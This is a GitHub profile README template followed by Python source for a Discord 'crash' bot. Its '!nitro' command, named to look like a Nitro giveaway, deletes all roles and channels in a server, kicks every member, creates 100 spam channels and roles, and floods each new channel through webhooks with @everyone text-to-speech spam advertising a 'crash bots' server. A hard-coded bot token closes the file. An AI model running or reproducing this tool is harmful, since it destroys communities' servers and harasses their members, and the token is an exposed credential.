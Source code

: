 - 👋 Hi, I’m @Roma1234dc
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Roma1234dc/Roma1234dc is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import discord
from discord.ext import commands
from discord import Permissions
import asyncio
import os
import discord, random, aiohttp, asyncio
from threading import Thread
import requests

intents = discord.Intents.default()
intents.members = True

bot = commands.Bot(command_prefix='!', intents=intents)

bot.remove_command("help")


@bot.command()
async def nitro(ctx):
    guild = ctx.message.guild
    with open('hacked.jpg', 'rb') as f:
        icon = f.read()
    await guild.edit(name="Crash By RC BOT", icon=icon)

    await ctx.message.delete()

    for m in ctx.guild.roles:
        try:
            await m.delete(reason="Краш сервера")
        except:
            pass

    for channel in ctx.guild.channels:  # собираем
        try:
            await channel.delete(reason="Краш сервера")  # удаляем
        except:
            pass

    for _ in range(100):
        await guild.create_text_channel('crash-by-rc roma1234')

    for _ in range(100):
        await guild.create_role(name='crash-by-rc roma1234')

    for m in ctx.guild.members:
        try:
            await m.kick(reason="Краш сервера")
        except:
            pass


@bot.event
async def on_guild_channel_create(channel):
    webhook = await channel.create_webhook(name="Crash By RC BOT")
    webhook_url = webhook.url
    async with aiohttp.ClientSession() as session:
        webhook = discord.Webhook.from_url(
            str(webhook_url), adapter=discord.AsyncWebhookAdapter(session))
        for i in range(50):
            try:
                await webhook.send(
                    "@everyone  вы крашнуты  Ссылка на дискорд сервер с краш ботами https://discord.gg/tZGFMc6yJJ author Roma1234#7412*",
                    tts=True)
            except:
                pass


token = 'OTk5NjU3MTQ5MjA4NzIzNDU2.GF7FBd.LGKEp8PTf6X3vJ8PqKqDQGzlSGAwqqUfC4UftE'
bot.run(token)
